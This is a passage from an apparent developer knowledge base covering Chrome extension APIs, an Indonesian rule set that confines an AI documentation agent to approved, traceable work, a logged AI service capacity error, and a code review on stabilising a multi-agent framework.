
  // Ignore clicks during transitions
  if (recordingState === 'starting' || recordingState === 'stopping') return;

  if (recordingState === 'idle') {
    await chrome.storage.session.set({ recordingState: 'starting' });
    try {
      await startRecording(tab);
      await chrome.storage.session.set({ recordingState: 'recording' });
      await chrome.action.setBadgeText({ text: 'REC' });
      await chrome.action.setBadgeBackgroundColor({ color: '#FF0000' });
    } catch (err) {
      console.error('Failed to start recording:', err);
      await chrome.storage.session.set({ recordingState: 'idle' });
    }
  } else if (recordingState === 'recording') {
    await chrome.storage.session.set({ recordingState: 'stopping' });
    try { await stopRecording(); }
    finally {
      await chrome.storage.session.set({ recordingState: 'idle' });
      await chrome.action.setBadgeText({ text: '' });
    }
  }
});
```

This same pattern applies to `chrome.offscreen.createDocument` (only one offscreen document
is allowed at a time) and any other API that manages an exclusive resource.

## Saving Recordings

Offscreen documents cannot call `chrome.downloads` — send the blob back to the service worker:

```js
// offscreen.js — when recording stops
recorder.ondataavailable = (e) => chunks.push(e.data);
recorder.onstop = async () => {
  const blob = new Blob(chunks, { type: 'video/webm' });
  const url = URL.createObjectURL(blob);
  // Service worker handles the download
  await chrome.runtime.sendMessage({ type: 'SAVE_RECORDING', url });
};

// service-worker.js
chrome.runtime.onMessage.addListener((msg) => {
  if (msg.type !== 'SAVE_RECORDING') return;
  chrome.downloads.download({ url: msg.url, filename: 'recording.webm' });
});
```

See `references/extensions/[message-passing.md](NEXUS_MESSAGE-PASSING.MD)` for the full offscreen document messaging pattern.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [api]

### 📘 KNOWLEDGE: NEXUS_MESSAGE-PASSING.MD

# Message Passing
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## Basic patterns

### One-way message (fire and forget)

```js
// sender (popup, content script, etc.)
chrome.runtime.sendMessage({ type: 'LOG', data: 'hello' });

// receiver (service worker)
chrome.runtime.onMessage.addListener((message, sender) => {
  if (message.type === 'LOG') console.log(message.data);
});
```

### Request/response — IIFE + return true (most compatible)

```js
// sender
const response = await chrome.runtime.sendMessage({ type: 'GET_DATA' });
console.log(response.data);

// receiver — IIFE keeps the channel open until sendResponse is called
chrome.runtime.onMessage.addListener((message, sender, sendResponse) => {
  if (message.type === 'GET_DATA') {
    (async () => {
      const data = await chrome.storage.local.get('key');
      sendResponse({ data });
    })();
    return true; // REQUIRED — tells Chrome to keep the channel open
  }
});
```

### Request/response — return a Promise (Chrome 99+)

Returning a Promise directly from the listener is now supported and cleaner than the IIFE pattern:

```js
chrome.runtime.onMessage.addListener((message, sender) => {
  if (message.type === 'GET_DATA') {
    return chrome.storage.local.get('key'); // returned promise resolves the response
  }
  // Return nothing (or undefined) for messages this listener doesn't handle
});
```

**Note:** Requires Chrome 99+, only use when minimum Chrome version is set to 99.
**Note:** Do NOT mix the two styles. If you return a Promise, do NOT also call `sendResponse` or `return true`.

## Content script ↔ service worker

```js
// content script → service worker
const result = await chrome.runtime.sendMessage({ type: 'FETCH_DATA', url: location.href });

// service worker → specific tab's content script
await chrome.tabs.sendMessage(tabId, { type: 'HIGHLIGHT', selector: '.important' });
```

## Service worker → content script (targeted)

Always check that the tab exists and the content script is injected:

```js
async function sendToContentScript(tabId, message) {
  try {
    return await chrome.tabs.sendMessage(tabId, message);
  } catch (err) {
    // Content script not injected yet, or tab navigated away
    console.warn('Could not reach content script:', err.message);
    return null;
  }
}
```

## Long-lived connections (ports)

Use ports when you need a persistent channel (e.g., streaming data, DevTools panel):

```js
// opener (popup or content script)
const port = chrome.runtime.connect({ name: 'my-channel' });
port.postMessage({ type: 'START' });
port.onMessage.addListener((msg) => console.log('received:', msg));
port.onDisconnect.addListener(() => console.log('disconnected'));

// receiver (service worker)
chrome.runtime.onConnect.addListener((port) => {
  if (port.name !== 'my-channel') return;
  port.onMessage.addListener((msg) => {
    if (msg.type === 'START') {
      port.postMessage({ status: 'ok' });
    }
  });
});
```

## Common mistakes

### Missing `return true` causes response to never arrive

```js
// ❌ BROKEN — async work completes but channel is already closed
chrome.runtime.onMessage.addListener((message, sender, sendResponse) => {
  fetchSomething().then(data => sendResponse(data)); // too late
  // missing: return true
});

// ✅ CORRECT
chrome.runtime.onMessage.addListener((message, sender, sendResponse) => {
  fetchSomething().then(data => sendResponse(data));
  return true;
});
```

### Sending to a tab before the content script is ready

Content scripts are injected after the page loads. If the service worker sends a message immediately on `tabs.onUpdated`, the content script may not be listening yet. Use a handshake or retry:

```js
// content script — announce it's ready
chrome.runtime.sendMessage({ type: 'CONTENT_READY' });

// service worker — wait for CONTENT_READY before sending
chrome.runtime.onMessage.addListener((msg, sender) => {
  if (msg.type === 'CONTENT_READY' && sender.tab) {
    chrome.tabs.sendMessage(sender.tab.id, { type: 'INIT_DATA', ... });
  }
});
```

### Multiple listeners responding

Only one listener should respond to a given message type. If multiple listeners call `sendResponse`, only the first one wins and the rest are silently ignored.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [api]

### 📘 KNOWLEDGE: NEXUS_NEXUS EKSTERNAL BOUNDARY.MD

# 🧱 AI Agent Documentation System — Boundary Definition
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## 1. 🎯 Tujuan Utama (Scope Inti)

Project ini berfokus pada orkestrasi perilaku AI Agent untuk:

- Membantu pembuatan dokumentasi project yang sistematis dan konsisten

AI Agent **BUKAN** untuk:

- Coding utama
- Debugging kompleks
- Deployment
- Pengambilan keputusan bisnis

> AI Agent = Documentation Assistant, bukan Developer utama

---

## 2. 🧭 Role AI Agent

AI Agent hanya boleh beroperasi dalam 4 role berikut:

### 2.1 Summarizer

- Menghasilkan ringkasan aktivitas harian
- Input: log kerja / commit / chat
- Output: ringkasan faktual, tanpa asumsi

---

### 2.2 Planner

- Menyusun roadmap dan fase pengembangan
- Harus modular dan incremental
- Tidak boleh keluar dari scope project

---

### 2.3 Auditor

- Memberikan evaluasi dan saran fitur
- Harus berbasis dokumentasi
- Tidak boleh spekulatif

---

### 2.4 Recorder

- Mencatat perubahan sebelum vs sesudah
- Mendokumentasikan hasil tiap fase
- Harus terstruktur dan dapat ditelusuri

---

## 3. 📦 Struktur Dokumentasi

Semua output wajib masuk ke kategori berikut:

### 3.1 Summary

- Aktivitas hari ini
- Masalah
- Status progress

### 3.2 Planning

- Breakdown fase
- Tujuan
- Dependensi

### 3.3 Audit

- Kekurangan
- Rekomendasi
- Saran fitur

### 3.4 Record

- Perubahan teknis
- Before vs After
- Dampak perubahan

---

## 4. 🚧 Boundary Teknis

AI Agent tidak boleh:

- Mengubah source code tanpa instruksi
- Mengambil keputusan arsitektur final
- Mengakses resource eksternal tanpa izin
- Menulis di luar 4 kategori dokumentasi
- Menghasilkan output tanpa struktur

---

## 5. ⚙️ Environment Scope

AI Agent dapat berjalan di:

- IDE (VS Code, JetBrains, dll)
- Local AI tools
- CLI / standalone AI

Namun harus:

- Konsisten role
- Konsisten format dokumentasi

---

## 6. 🧪 Standar Kualitas

Dokumentasi harus:

- Konsisten
- Tidak ambigu
- Mudah dipahami oleh orang baru
- Memiliki relasi jelas:
  Planning → Execution → Record → Audit

---

## 7. 🔁 Workflow (Updated dengan Eksekusi)

### 7.1 Base Workflow (Dengan Eksekusi)

1. Planning dibuat
2. 🔒 Minta approval
3. ✅ Planning disetujui
4. ⚙️ Eksekusi dilakukan
5. Summary dibuat
6. 🔒 Minta approval
7. Record dibuat
8. 🔒 Minta approval
9. Audit dilakukan
10. 🔒 Minta approval

---

### 7.2 Aturan Eksekusi

Eksekusi adalah tahap implementasi dari Planning yang telah disetujui.

Eksekusi dapat dilakukan oleh:

- 🤖 AI Agent (chatbot / IDE agent / local LLM)
- 👨‍💻 Developer (manual)

---

### 7.3 Constraint Eksekusi oleh AI

Jika AI Agent yang melakukan eksekusi:

- Harus berdasarkan Planning yang sudah disetujui
- Tidak boleh keluar dari scope Planning
- Tidak boleh menambahkan fitur baru tanpa approval
- Harus menghasilkan output yang bisa didokumentasikan

---

### 7.4 Constraint Eksekusi oleh Developer

Jika Developer yang melakukan eksekusi:

- Tetap wajib mengikuti Planning
- Semua perubahan harus dicatat oleh AI (Recorder)
- Tidak boleh melewati proses dokumentasi

---

### 7.5 Relasi Eksekusi → Dokumentasi

Setiap eksekusi WAJIB menghasilkan:

- Input untuk Summary
- Data untuk Record (before vs after)
- Bahan evaluasi untuk Audit

---

### 7.6 Larangan Terkait Eksekusi

- Eksekusi sebelum Planning disetujui
- Eksekusi di luar scope Planning
- Eksekusi tanpa dokumentasi
- AI melakukan aksi tanpa jejak (non-traceable action)

---

## 8. 🔒 Mandatory Approval System (Update Minor)

Tambahan aturan:

- Eksekusi **hanya boleh dimulai setelah Planning disetujui**
- Jika Planning berubah → wajib approval ulang sebelum eksekusi lanjut

### 8.1 Prinsip

Semua output AI Agent harus mendapat:

> ✅ Persetujuan eksplisit dari Developer / User

---

### 8.2 Approval Required Pada:

#### Planning

- Sebelum fase dijalankan

#### Summary

- Sebelum menjadi dokumentasi resmi

#### Audit

- Sebelum masuk ke planning

#### Record

- Sebelum menjadi state resmi

---

### 8.3 Workflow Dengan Approval

1. Planning dibuat
2. 🔒 Minta approval
3. Aktivitas dilakukan
4. Summary dibuat
5. 🔒 Minta approval
6. Record dibuat
7. 🔒 Minta approval
8. Audit dilakukan
9. 🔒 Minta approval

---

### 8.4 Format Approval Request

Setiap output harus diakhiri dengan:
STATUS: MENUNGGU PERSETUJUAN
ACTION: Approve / Revise / Reject

---

### 8.5 Larangan Terkait Approval

AI Agent tidak boleh:

- Menganggap diam sebagai persetujuan
- Melanjutkan tanpa approval
- Mengubah hasil yang sudah disetujui tanpa approval ulang
- Menggabungkan approval dalam satu langkah

---

## 9. 🧠 Constraint Perilaku AI

AI harus:

- Deterministik
- Berbasis data
- Ringkas dan jelas
- Konsisten format

---

## 10. 📌 Definition of Done

Project dianggap selesai jika:

- Semua aktivitas terdokumentasi dalam 4 kategori
- AI dapat menghasilkan dokumentasi otomatis
- Dokumentasi bisa digunakan untuk:
  - Onboarding
  - Audit
  - Evaluasi project

---

## 11. 🔒 Boundary Final

> Sistem ini adalah pembatas AI Agent agar menjadi mesin dokumentasi yang terstruktur, konsisten, dan dikontrol penuh oleh manusia.

Bukan:

> Sistem untuk menggantikan developer atau membangun produk utama


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [api]

### 📘 KNOWLEDGE: NEXUS_PERSISTENT-TOP-LAYER-UI.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

When moving an open `<dialog>`, `popover`, or fullscreen element in the DOM using traditional methods like `appendChild()` or `insertBefore()`, the browser implicitly removes the element from the DOM and re-inserts it. This removal resets the state, causing open modals, popovers, and fullscreen elements to close abruptly.

To reparent top-layer elements without interrupting the user experience or closing them, use the atomic `moveBefore()` API instead.

### Reparenting open top-layer elements

`moveBefore()` takes two arguments: the node to move, and a reference node to insert before (or `null` to append to the end of the new parent).

```javascript
const newParent = document.getElementById('new-container');
const dialogElement = document.getElementById('my-dialog');

// MANDATORY: Use moveBefore to ensure the <dialog> or popover stays open.
// Passing null appends it to the end of newParent.
newParent.moveBefore(dialogElement, null);
```

### Fallback strategies

moveBefore() has limited availability.
Supported by: Chrome 133 (Feb 2025), Edge 133 (Feb 2025), and Firefox 144 (Oct 2025).
Unsupported in: Safari.

Since `moveBefore()` is a progressive enhancement, you MUST use feature detection before calling it. For older browsers, you will have to fallback to traditional reparenting.

**MANDATORY**: For `<dialog>` elements in unsupported browsers, the traditional move will close the dialog. If you need it to remain open, you must manually re-open it after the move.

```javascript
const targetParent = document.getElementById('target-container');
const popoverOrDialog = document.getElementById('my-top-layer-element');

// Check if moveBefore is supported
if ('moveBefore' in Element.prototype) {
  targetParent.moveBefore(popoverOrDialog, null);
} else {
  // Fallback: traditional move.
  // Note: This WILL close <dialog>, popover, and fullscreen elements.
  const wasOpen = popoverOrDialog.hasAttribute('open') || popoverOrDialog.matches(':popover-open');
  targetParent.insertBefore(popoverOrDialog, null);
  
  // Manually restore state if possible
  if (wasOpen && typeof popoverOrDialog.showModal === 'function') {
    popoverOrDialog.showModal();
  } else if (wasOpen && typeof popoverOrDialog.showPopover === 'function') {
    popoverOrDialog.showPopover();
  }
}
```

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [api]

### 📘 KNOWLEDGE: NEXUS_POPUP-UI.MD

# Popup UI
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## Setup

```json
{
  "action": {
    "default_popup": "popup/popup.html",
    "default_icon": {
      "16": "icons/icon-16.png",
      "48": "icons/icon-48.png",
      "128": "icons/icon-128.png"
    },
    "default_title": "My Extension"
  }
}
```

## Key Constraints

- Popup closes when the user clicks outside it — don't rely on it staying open
- Default max size: 800x600 px. Set size via CSS on body/html
- All scripts must be external files (CSP — no inline scripts)
- All event listeners must use `addEventListener` (no inline handlers)

## Popup HTML Template

```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="utf-8">
  <style>
    body { width: 350px; min-height: 200px; padding: 16px; font-family: system-ui; }
  </style>
</head>
<body>
  <h1>My Extension</h1>
  <div id="content"></div>
  <script src="popup.js"></script>
</body>
</html>
```

## Persistence

Popup state is lost when closed. Use `chrome.storage` for persistence:

```js
// Save on change
document.getElementById('input').addEventListener('input', (e) => {
  chrome.storage.local.set({ savedInput: e.target.value });
});

// Restore on open
document.addEventListener('DOMContentLoaded', async () => {
  const { savedInput = '' } = await chrome.storage.local.get('savedInput');
  document.getElementById('input').value = savedInput;
});
```

Note: `localStorage` technically works in popups (they have a persistent origin), but
`chrome.storage` is strongly preferred because it works across all extension contexts
and supports sync.

## Communicating with Service Worker

```js
// From popup
const response = await chrome.runtime.sendMessage({ type: 'GET_STATUS' });

// Long-lived connection
const port = chrome.runtime.connect({ name: 'popup' });
port.postMessage({ type: 'INIT' });
port.onMessage.addListener((msg) => { /* handle */ });
```

## Dynamic Popup vs No Popup

If you want the action click to do something instead of showing a popup, remove
`default_popup` and use `chrome.action.onClicked`:

```js
// In service worker — only fires if NO popup is set
chrome.action.onClicked.addListener((tab) => {
  // Open side panel, inject script, etc.
});
```

You can toggle between popup and no-popup dynamically:
```js
chrome.action.setPopup({ popup: 'popup/popup.html' }); // Enable popup
chrome.action.setPopup({ popup: '' }); // Disable popup (enables onClicked)
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [api]

### 📘 KNOWLEDGE: NEXUS_SIDE-PANEL.MD

# Side Panel
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## Setup

Add to manifest.json:
```json
{
  "permissions": ["sidePanel"],
  "side_panel": {
    "default_path": "sidepanel/sidepanel.html"
  }
}
```

## Opening the Side Panel — REQUIRED

**A side panel definition alone does NOT make it openable.** You MUST provide an explicit
trigger to open it. Without one of these, users have no way to access the panel:

### Most common: Open on action icon click

If the extension's primary function is the side panel, remove `default_popup` from the action
and use `chrome.action.onClicked` to open the side panel:

```js
// service-worker.js
chrome.action.onClicked.addListener(async (tab) => {
  await chrome.sidePanel.open({ windowId: tab.windowId });
});
```

⚠️ `chrome.action.onClicked` only fires when there is NO `default_popup` set. If you have both
a popup and a side panel, open the side panel from the popup via a button, or use a different
trigger.

### Alternative triggers

```js
// Open from a context menu item
chrome.contextMenus.onClicked.addListener(async (info, tab) => {
  if (info.menuItemId === 'open-panel') {
    await chrome.sidePanel.open({ windowId: tab.windowId });
  }
});

// Open from a keyboard shortcut (defined in manifest commands)
chrome.commands.onCommand.addListener(async (command) => {
  if (command === 'open-side-panel') {
    const [tab] = await chrome.tabs.query({ active: true, currentWindow: true });
    await chrome.sidePanel.open({ windowId: tab.windowId });
  }
});
```

You can also open it for a specific tab:
```js
await chrome.sidePanel.open({ tabId: tab.id });
```

### Simplest: Auto-open via setPanelBehavior

If the side panel should open whenever the user clicks the extension icon, use `setPanelBehavior`
as a one-liner instead of an `onClicked` listener:

```js
// service-worker.js
chrome.sidePanel.setPanelBehavior({ openPanelOnActionClick: true });
```

⚠️ **The property is `openPanelOnActionClick` — NOT `openPanelOnActionIconClick`.**
Using the wrong name causes a synchronous TypeError that silently aborts the service worker.

When using `setPanelBehavior`, do NOT also define `default_popup` — the popup takes priority.

## Setting Panel Per-Tab

```js
// Different side panel content for different tabs
chrome.tabs.onUpdated.addListener(async (tabId, changeInfo, tab) => {
  if (tab.url?.includes('github.com')) {
    await chrome.sidePanel.setOptions({
      tabId,
      path: 'sidepanel/github-panel.html',
      enabled: true
    });
  }
});
```

## Communication with Side Panel

The side panel is an extension page, so it can use all chrome.* APIs directly and communicate
with the service worker via `chrome.runtime.sendMessage` / `chrome.runtime.onMessage`.

To get data from the active tab's content script:

```js
// In side panel JS
async function getPageContent() {
  const [tab] = await chrome.tabs.query({ active: true, currentWindow: true });
  const response = await chrome.tabs.sendMessage(tab.id, { type: 'GET_CONTENT' });
  return response;
}
```

Or use `chrome.scripting.executeScript` from the side panel (requires `scripting` and `activeTab` permissions):

```js
const [{ result }] = await chrome.scripting.executeScript({
  target: { tabId: tab.id },
  func: () => document.body.innerText
});
```

## Side Panel vs Popup

| Feature | Side Panel | Popup |
|---------|-----------|-------|
| Stays open | Yes | Closes when clicking away |
| Resizable | Yes (by user) | Fixed size |
| Coexists with page | Yes (side by side) | Overlays page |
| Use when | Extended interaction, reading | Quick actions, settings |

## Important Notes

- The side panel shares a single instance per window — opening it replaces existing content
- Use `chrome.sidePanel.setOptions({ enabled: false })` to disable for specific tabs
- Side panel HTML files have full access to chrome.* APIs
- The side panel persists across tab switches (per-window)

### ⚠️ `activeTab` does NOT work from side panel interactions

`activeTab` only grants tab access on direct user gestures: clicking the extension icon, context
menu items, keyboard shortcuts, or omnibox suggestions. **Clicking a button inside a side panel
does NOT activate `activeTab`.**

If your side panel needs to read or modify page content (e.g., a "Summarize" button), use
`tabs` + `host_permissions` instead:

```json
{
  "permissions": ["tabs", "scripting", "sidePanel"],
  "host_permissions": ["<all_urls>"]
}
```

Do NOT rely on `activeTab` for side panel functionality.


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [api]

### 📘 KNOWLEDGE: NEXUS_TES-2 13 MEI.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

Trajectory ID: e67f5505-4b18-4ab2-96c1-ceb876043299
Error: HTTP 503 Service Unavailable
Sherlog:
TraceID: 0xa1672314c3573110
Headers: {"Alt-Svc":["h3=\":443\"; ma=2592000,h3-29=\":443\"; ma=2592000"],"Content-Length":["474"],"Content-Type":["text/event-stream"],"Date":["Wed, 13 May 2026 08:45:24 GMT"],"Server":["ESF"],"Server-Timing":["gfet4t7; dur=12950"],"Vary":["Origin","X-Origin","Referer"],"X-Cloudaicompanion-Trace-Id":["a1672314c3573110"],"X-Content-Type-Options":["nosniff"],"X-Frame-Options":["SAMEORIGIN"],"X-Xss-Protection":["0"]}

{
"error": {
"code": 503,
"details": [
{
"@type": "type.googleapis.com/google.rpc.ErrorInfo",
"domain": "cloudcode-pa.googleapis.com",
"metadata": {
"OVERLOADED_TOO_MANY_RETRIES_PER_REQUEST": "true",
"model": "gemini-pro-agent"
},
"reason": "MODEL_CAPACITY_EXHAUSTED"
}
],
"message": "No capacity available for model gemini-pro-agent on the server",
"status": "UNAVAILABLE"
}
}


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [api]

### 📘 KNOWLEDGE: NEXUS_MULTIAGENT_STABILITY_GUIDE.MD

# 🏗️ NEXUS Multi-Agent Stability Guide
> **Reviewer**: Senior AI Engineer  
> **Tanggal**: 2026-05-13  
> **Basis**: Full source code scan — NexusEngine, EventBus, Orchestrator, MemoryGovernor, ResourceMonitor, DecisionEngine  
> **Tujuan**: Panduan konkret untuk membuat NEXUS stabil sebagai Multi-Agent Framework

---

## Gambaran Besar — Apa Yang Sedang Terjadi

Sebelum masuk ke detail, ini visualisasi sistem saat ini:

```
nexus run
    │
    ▼
NexusEngine (God Object — 20+ dependency)
    │
    ├── Orchestrator ──► EventBus ──► SandboxExecutor
    │                                     │
    ├── MemoryPipeline                     ▼
    │                              6 Specialist Agents
    ├── Distiller                   (Promise.all — parallel)
    │
    ├── SemanticEngine
    │
    ├── LocalIntelligence
    │
    └── ... 15 modul lainnya
```

Masalah utama: **semuanya terhubung langsung ke NexusEngine**. Kalau satu modul bermasalah, seluruh sistem terancam.

---

## 10 Masalah Stabilitas Yang Ditemukan

### 1. NexusEngine adalah God Object 🔴

**Diagnosis:**
```javascript
// NexusEngine.js constructor — 20+ dependency langsung
this.modifier = new Modifier(this.rootPath);
this.memoryPipeline = new MemoryPipeline(...);
this.tddGuard = new TDDGuard(this.rootPath);
this.tddScaffolder = new TDDScaffolder(this.rootPath);
this.assetEngine = new AssetEngine(this.rootPath);
this.validator = new Validator(this.rootPath);
this.bugHunter = new BugHunter(this.rootPath);
this.designer = new Designer();
this.a11yScanner = new AccessibilityScanner(this.rootPath);
this.schemaGuard = new SchemaGuard(this.rootPath);
this.queryOptimizer = new QueryOptimizer(this.rootPath);
this.worktreeManager = new WorktreeManager(this.rootPath);
this.rcAnalyzer = new RootCauseAnalyzer();
this.machinist = new Machinist(this.rootPath, this.tddScaffolder);
this.distiller = new Distiller(this.knowledgePath);
this.evolutionPiper = new EvolutionPiper(this.rootPath);
this.decisionEngine = new DecisionEngine();
this.semanticEngine = new SemanticEngine(this.knowledgePath);
this.localAI = localAI;
```

**Dampak**: Single Point of Failure. Kalau satu konstruktor throw, seluruh engine tidak bisa start.

**Solusi — Lazy Loading:**
```javascript
// Ganti inisialisasi langsung dengan lazy loader
class NexusEngine {
    constructor(config = {}) {
        this.rootPath = config.rootPath || process.cwd();
        this._modules = {}; // Registry modul, diload saat dibutuhkan
    }

    // Modul hanya diload saat pertama kali diakses
    get modifier() {
        if (!this._modules.modifier) {
            const Modifier = require('./Modifier');
            this._modules.modifier = new Modifier(this.rootPath);
        }
        return this._modules.modifier;
    }

    get semanticEngine() {
        if (!this._modules.semanticEngine) {
            const SemanticEngine = require('./SemanticEngine');
            this._modules.semanticEngine = new SemanticEngine(this.knowledgePath);
        }
        return this._modules.semanticEngine;
    }
    
    // ...dan seterusnya untuk semua modul
}
```

**Benefit**: Engine bisa start meski beberapa modul gagal. Modul yang tidak dipakai tidak memakan RAM.

---

### 2. ResourceMonitor CPU Selalu 0% 🔴

**Diagnosis:**
```javascript
// ResourceMonitor.js — ini adalah bug nyata
getMetrics() {
    return {
        cpu_usage_pct: 0, // ← PLACEHOLDER! Tidak pernah diisi
        mem_usage_pct: memUsage.toFixed(2),
        // ...
    };
}
```

`checkStress()` hanya cek memory dan load_avg. CPU usage tidak pernah diukur. Di kondisi seperti tadi (CPU 100%), sistem tidak tahu kalau CPU sedang penuh.

**Solusi — Real CPU Measurement:**
```javascript
class ResourceMonitor {
    constructor(thresholds = {}) {
        this.cpuThreshold = thresholds.cpu || 80;
        this.memThreshold = thresholds.mem || 85; // Turunkan dari 90 ke 85 untuk safety margin
        this._lastCpuMeasure = null;
    }

    async getCpuUsage() {
        // CPU usage butuh 2 snapshot dengan delay — ini cara yang benar
        const measure = () => {
            const cpus = os.cpus();
            let idle = 0, total = 0;
            cpus.forEach(cpu => {
                for (const type in cpu.times) total += cpu.times[type];
                idle += cpu.times.idle;
            });
            return { idle, total };
        };

        const start = measure();
        await new Promise(r => setTimeout(r, 200)); // tunggu 200ms
        const end = measure();

        const idleDiff = end.idle - start.idle;
        const totalDiff = end.total - start.total;
        return totalDiff === 0 ? 0 : (100 - (idleDiff / totalDiff) * 100);
    }

    async checkStress() {
        const freeMem = os.freemem();
        const totalMem = os.totalmem();
        const memPct = ((totalMem - freeMem) / totalMem) * 100;
        const cpuPct = await this.getCpuUsage();

        const isMemStressed = memPct > this.memThreshold;
        const isCpuStressed = cpuPct > this.cpuThreshold;
        const isStressed = isMemStressed || isCpuStressed;

        // Throttle recommendation berdasarkan severity
        let recommendation = 'PROCEED';
        if (memPct > 95 || cpuPct > 95) recommendation = 'PAUSE';       // Darurat
        else if (isStressed) recommendation = 'THROTTLE';                // Kurangi paralel
        
        return {
            stressed: isStressed,
            metrics: { cpu_usage_pct: cpuPct.toFixed(1), mem_usage_pct: memPct.toFixed(1) },
            recommendation
        };
    }
}
```

---

### 3. EventBus Tidak Punya Schema Validation 🟡

**Diagnosis:**
```javascript
// EventBus.js — siapapun bisa publish event apapun
publish(event, payload) {
    // Tidak ada validasi event name
    // Tidak ada validasi payload structure
    this.emit(event, payload);
}
```

Dalam multi-agent, ini artinya agent yang buggy bisa publish event dengan format salah dan meng-crash agent lain yang subscribe.

**Solusi — Event Schema Registry:**
```javascript
// Tambahkan di EventBus.js

const EVENT_SCHEMA = {
    'SCANNER_TRIGGERED': { required: ['agent', 'pluginPath', 'input'] },
    'SCANNER_FINISHED':  { required: ['task_id', 'result'] },
    'TASK_FAILED':       { required: ['task_id', 'error'] },
    'CYCLE_FINISHED':    { required: [] },
    'MEMORY_UPDATED':    { required: ['category', 'filename'] },
    'AGENT_READY':       { required: ['agent_id'] },
    'AGENT_BUSY':        { required: ['agent_id', 'task_id'] },
};

publish(event, payload) {
    // Validasi event terdaftar
    if (!EVENT_SCHEMA[event]) {
        console.warn(`⚠️ EventBus: Unknown event "${event}". Register it in EVENT_SCHEMA first.`);
        // Di development: throw. Di production: warn saja agar tidak crash.
        return;
    }

    // Validasi required fields
    const schema = EVENT_SCHEMA[event];
    const missing = schema.required.filter(field => !payload || payload[field] === undefined);
    if (missing.length > 0) {
        throw new Error(
            `EventBus Schema Violation: Event "${event}" missing fields [${missing.join(', ')}]`
        );
    }

    // Existing duplicate prevention logic...
    const payloadStr = JSON.stringify(payload);
    const eventKey = `${event}-${payloadStr}`;
    if (this._recentEvents.has(eventKey)) return;
    // ... rest sama
}
```

---

### 4. Tidak Ada Circuit Breaker untuk Agent Failure 🔴

**Diagnosis:**
```javascript
// NexusEngine — audit phase
const agentResults = await Promise.all(
    specialists.map(agent => this.runSpecialistAgent(agent, context))
);
```

Kalau 1 dari 6 agent timeout atau throw, `Promise.all` akan menggantung atau crash seluruh audit.

**Solusi — Circuit Breaker Pattern:**
```javascript
// Tambahkan method ini di NexusEngine.js

async runWithCircuitBreaker(agentName, fn, timeoutMs = 30000) {
    const timeoutPromise = new Promise((_, reject) =>
        setTimeout(() => reject(new Error(`Agent "${agentName}" timed out after ${timeoutMs}ms`)), timeoutMs)
    );

    try {
        const result = await Promise.race([fn(), timeoutPromise]);
        return { agent: agentName, status: 'success', result };
    } catch (err) {
        // Agent gagal — catat tapi jangan crash seluruh sistem
        await this.logger.log('agents', 'ERROR', agentName, 'N/A', 'AGENT_FAILED', err.message);
        return { agent: agentName, status: 'failed', error: err.message, result: null };
    }
}

// Ganti Promise.all dengan ini:
async runSpecialistsParallel(specialists, context) {
    const results = await Promise.allSettled(
        specialists.map(agent =>
            this.runWithCircuitBreaker(agent.name, () => this.runSpecialistAgent(agent, context))
        )
    );

    const successful = results.filter(r => r.value?.status === 'success');
    const failed = results.filter(r => r.value?.status === 'failed');

    if (failed.length > 0) {
        this.log(`⚠️ ${failed.length}/${specialists.length} agents failed: ${failed.map(f => f.value.agent).join(', ')}`, 'warning');
    }

    // Lanjutkan dengan hasil yang ada, jangan abort seluruh cycle
    return successful.map(r => r.value.result);
}
```

---

### 5. MemoryGovernor Lock Bisa Cascade Deadlock 🟡

**Diagnosis:**
```javascript
// MemoryGovernor.js
async acquireLock(filename, timeoutMs = 5000) {
    const lockFile = path.join(this.memoryPath, `${filename}.lock`);
    const start = Date.now();
    while (await fs.pathExists(lockFile)) {
        if (Date.now() - start > timeoutMs) {
            throw new Error(`MemoryGovernor: Lock timeout on ${filename}`);
        }
        await new Promise(r => setTimeout(r, 100)); // polling setiap 100ms
    }
    await fs.writeJson(lockFile, { locked_at: NexusClock.getISOTimestamp() });
}
```

Dalam multi-agent parallel, 6 agent bisa coba lock file yang sama bersamaan. Mereka semua akan polling setiap 100ms. Di RAM 8GB yang sudah 94%, ini bisa starvation.

Lebih berbahaya: kalau proses crash setelah `acquireLock` tapi sebelum `releaseLock`, lock file tidak pernah terhapus. **Permanent deadlock**.

**Solusi — Stale Lock Detection:**
```javascript
async acquireLock(filename, timeoutMs = 5000) {
    const lockFile = path.join(this.memoryPath, `${filename}.lock`);
    const start = Date.now();
    
    while (await fs.pathExists(lockFile)) {
        // CEK STALE LOCK: Kalau lock lebih dari 30 detik, anggap prosesnya sudah mati
        try {
            const lockData = await fs.readJson(lockFile);
            const lockAge = Date.now() - new Date(lockData.locked_at).getTime();
            const STALE_THRESHOLD_MS = 30000; // 30 detik
            
            if (lockAge > STALE_THRESHOLD_MS) {
                console.warn(`⚠️ MemoryGovernor: Stale lock detected on "${filename}" (${Math.round(lockAge/1000)}s old). Force releasing.`);
                await fs.remove(lockFile);
                break; // Lock sudah dihapus, lanjut acquire
            }
        } catch (e) {
            // File lock corrupt — hapus saja
            await fs.remove(lockFile).catch(() => {});
            break;
        }

        if (Date.now() - start > timeoutMs) {
            throw new Error(`MemoryGovernor: Lock timeout on "${filename}" after ${timeoutMs}ms`);
        }
        
        // Exponential backoff — kurangi polling pressure
        const elapsed = Date.now() - start;
        const waitMs = Math.min(100 * Math.pow(1.5, Math.floor(elapsed / 500)), 1000);
        await new Promise(r => setTimeout(r, waitMs));
    }

    await fs.writeJson(lockFile, {
        locked_at: new Date().toISOString(),
        process_pid: process.pid // Track siapa yang lock
    });
}
```

---

### 6. DecisionEngine Weight Hardcoded 🟡

**Diagnosis:**
```javascript
// DecisionEngine.js
constructor() {
    this.weights = {
        security: 0.5,   // ← Tidak bisa dikonfigurasi
        stability: 0.3,
        performance: 0.1,
        readability: 0.1
    };
}
```

Weight ini tidak bisa disesuaikan per context. Refactor di SaaS project seharusnya weight `stability` lebih tinggi dari `security`. Scanner di security project sebaliknya.

